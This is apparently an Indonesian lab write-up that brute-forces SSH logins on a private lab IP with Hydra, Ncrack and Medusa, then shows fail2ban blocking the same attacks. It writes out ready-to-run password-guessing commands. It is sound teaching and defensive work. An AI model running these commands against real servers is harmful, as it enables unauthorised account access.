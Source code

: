 **Uji Penetrasi 1**

Hydra
- Buka Aplikasi Hydra
- Syntax penggunaan : `hydra -l username -P ListofPassword ssh://iptujuan`
- Maka perintah yang dimasukkan : `hydra -l hendri -P passlist.txt ssh://10.151.32.4` 

Ncrack
- Buka Aplikasi Ncrack
- Syntax penggunaan : `ncrack -u username -P ListofPassword ssh://iptujuan`
- Maka perintah yang dimasukkan : `ncrack -u hendri -P passlist.txt ssh://10.151.32.4` 

Medusa
- Buka Aplikasi Ncrack
- Syntax penggunaan : `medusa -u username -P ListofPassword -h iptujuan -M ssh`
- Maka perintah yang dimasukkan : `medusa -u hendri -P passlist.txt -h 10.151.32.4 -M ssh`

**Hasil Uji Penetrasi 1**
1. Ketiga aplikasi tersebut berhasil dalam melakukan brute force attack dengan mencoba semua kemungkinan password yang ada.
2. Dari ketiga aplikasi tersebut, **Hydra** paling cepat dalam menemukan hasil pencarian kemudian disusul oleh **Ncrack** dan terakhir **Medusa**

**Uji Penetrasi 2**

Lakukan instalasi terlebih dahulu **file2ban** pada Ubuntu Server
- Masuk keterminal pada Ubuntu Server
- Ketikkan `sudo apt-get update`
- Ketikkan `sudo apt-get install fail2ban`

Konfigurasi fail2ban
- Atur konfigurasi di /etc/fail2ban/jail.conf
- Tambahkan beberapa baris dibawah berikut :
``` 
	enable = true
 	port = ssh
 	filter = sshd
 	logpath = /var/log/auth.log
 	maxretry = 6
 	bantime = 120
```
- Jalankan fail2ban dengan memasukkan perantah `sudo service fail2ban start` pada terminal

Hydra
- Masukkan perintah : `hydra -l hendri -P passlist.txt ssh://10.151.32.4` 

Ncrack
- Masukkan perintah : `ncrack -u hendri -P passlist.txt ssh://10.151.32.4` 

Medusa
- Masukkan perintah : `medusa -u hendri -P passlist.txt -h 10.151.32.4 -M ssh`

**Hasil Uji Penetrasi 2**
1. Ketiga aplikasi tersebut tidak pada saat melakukan percobaan ke tujuh karena mengalami connection refuse sehingga, gagal dalam melakukan brute force attack
2. Setelah melakukan percobaan 6 kali dan gagal, maka otomatis server akan **mem-banned** ip yang berusaha untuk mengakses server tersebut selama 2 menit
3. Hasil percobaan untuk melakukan brute force attack dapat dilihat di **`/var/log/auth.log`**